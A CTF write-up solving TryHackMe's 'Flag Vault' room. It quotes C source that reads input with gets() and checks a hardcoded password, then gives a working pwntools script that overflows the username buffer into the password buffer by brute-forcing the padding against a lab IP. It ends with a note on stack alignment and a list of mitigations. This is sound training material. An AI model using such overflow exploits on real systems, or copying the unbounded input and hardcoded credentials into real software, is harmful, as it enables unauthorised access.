

# TryHackMe - Flag Vault (CTF Write-up)

> Author: Adam Pawelczyk
>
> Date: 2025-07-06
>
> Category: Binary Exploitation / Reverse Engineering
>
> Difficulty: Easy
>
> [TryHackMe Link](https://tryhackme.com/room/hfb1flagvault)

---

## Challenge Description

> Cipher asked me to create the most secure vault for flags, so I created a vault that cannot be accessed. You don't believe me? Well, here is the code with the password hardcoded. Not that you can do much with it anymore.

We're provided with the source code for a C-based login system. According to the challenge description, the password is hardcoded, but the input for it is commented out.


## Goal

Bypass the login mechanism and retrieve the flag.


## TL;DR

- Analyzed the provided C source code.
- Found that password input is disabled, while a hardcoded password check remains active.
- Identified a classic buffer overflow opportunity via the `gets()` call.
- Crafted an exploit using Python and `pwntools` to overwrite the password buffer in memory.
- Successfully retrieved the flag.


## Source Code Analysis

We are given the C source code. Here's a breakdown of the most critical part:

### Vulnerable login logic:

```c
char password[100] = "";
char username[100] = "";

printf("Username: ");
gets(username);

// If I disable the password, nobody will get in.
//printf("Password: ");
//gets(password);

if(!strcmp(username, "bytereaper") && !strcmp(password, "5up3rP4zz123Byte")){
    print_flag();
}
else{
    printf("Wrong password! No flag for you.");
}
```

### Key Observations:

- Password prompt is commented out, meaning password remains an empty string.
- `gets(username)` is used - a dangerous function that doesn't check bounds.
- If both username and password match the hardcoded values, the flag is printed.
- Since we control username, and it's stored before password in memory, we can overflow into password using a long enough input.


## Exploitation Strategy

We aim to overwrite the empty password buffer with the `5up3rP4zz123Byte` string by overflowing the username buffer.

To find the correct padding between username and password, we bruteforce it.


## Exploit Code

```python
from pwn import *

context.log_level = 'warning'

for padding in range(89, 110):
    conn = remote('10.10.147.75', 1337)
    payload = b'bytereaper\x00' + b'0' * padding + b'5up3rP4zz123Byte'

    conn.recvuntil(b'Username:')
    conn.sendline(payload)

    response = conn.recvall().decode().lstrip()

    if response != 'Wrong password! No flag for you.':
        print(f'padding: {padding}')
        print(f'flag: {response}')
```

This script:
- Connects to the server.
- Sends a crafted payload to overflow username and overwrite password.
- Brute-forces the correct padding.
- Prints the flag on a successful authentication.

## Exploitation Output

Upon executing the exploit code, the flag is retrieved:




### Why is the Padding 101 Bytes?

After writing the 10-character username and a null terminator (11 bytes total), we expected the remaining 89 bytes (of the 100-byte buffer) to end right at the boundary.

However, due to how stack variables are laid out and aligned in memory, there's a **12-byte padding** between the username and password buffers.

This padding ensures the stack remains aligned to **16 bytes**, in accordance with the **System V AMD64 ABI**, which modern compilers like GCC follow. It improves memory access performance and maintains compatibility.

So the full structure looks like this:

- `username[100]` - starts at aligned address.
- 12-byte padding - inserted by the compiler for alignment.
- `password[100]` - follows the padding.

To overflow from the start of username into password, we need:

- 11 bytes - username + null terminator
- 101 bytes - padding to reach the password buffer

Total: **112 bytes**, which aligns with our observed working exploit.

## Conclusion

The challenge showcased a classic example of insecure coding practices in C using `gets()` without bounds checking and leaving critical logic in place even when input is removed.

## Skills Practiced

- Manual code review and vulnerability analysis.
- Understanding stack layout and memory buffer overflows.
- Writing custom exploits using `pwntools`.

## Mitigations

- Never use `gets()` - it's unsafe. Use `fgets()` or other bounded alternatives.
- Never store passwords in plaintext or hardcode them into binaries.
- Always validate input length and use secure memory handling practices.

## Final Thoughts

Although the password prompt was disabled, the actual authentication logic remained, making the system vulnerable to a buffer overflow exploit. This challenge was a fun and simple exercise in binary exploitation and reverse engineering fundamentals.

**Note:** The flag value has been redacted in accordance with TryHackMe's write-up policy.